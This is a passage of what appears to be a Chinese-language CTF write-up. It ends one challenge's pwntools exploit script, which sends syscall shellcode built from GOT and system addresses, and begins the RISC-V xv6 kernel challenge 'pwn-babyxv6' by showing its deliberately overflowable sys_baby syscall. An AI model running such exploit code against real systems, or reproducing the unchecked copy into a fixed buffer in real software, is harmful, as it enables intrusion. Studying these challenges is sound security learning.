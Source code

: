```python
        "syscall:\\n"
            "mv a7, a0\\n"
            "mv a0, a1\\n"
            "mv a1, a2\\n"
            "mv a2, a3\\n"
            "mv a3, a4\\n"
            "mv a4, a5\\n"
            "mv a5, a6\\n"
            "ecall\\n"
            "ret\\n"
    );
"""%(elf_base + 0x668000, got_mprotect, system_addr)

sc2 = b'\x01\x00'*0x80 + gen_shellcode(sc2_src) # prefill with nops

sl(io, sc2)

io.interactive()
```



## pwn-babyxv6

一个 riscv kernel pwn . 和之前遇到的 kernel pwn 题不太一样.

之前遇到的 kernel pwn 通常都是加载一个恶意内核模块, 或者有一些错误的系统配置, 选手需要利用漏洞进行提权进而拿到 flag . 而这个题目并没有用户一个 shell. 用户需要利用漏洞拿到一个 shell 进而拿到 flag.

作者在开源 riscv 操作系统: [xv6-riscv](https://github.com/mit-pdos/xv6-riscv) 的基础之上进行了修改. 通过比较源码可以发现作者添加了一个系统调用: `sys_baby` 该系统调用的实现中中包含一个栈溢出漏洞:

```c
uint64
do_overflow(uint64 src, int sz)
{
    char buf[0x20];
    return copyin(myproc()->pagetable, buf, src, sz);
}

uint64
sys_baby(void)
{
    int n;
    uint64 p;
    char pad[0x100];

    if (argint(1, &n) < 0 || argaddr(0, &p) < 0)
        return -1;
    return do_overflow(p, n);
}
```
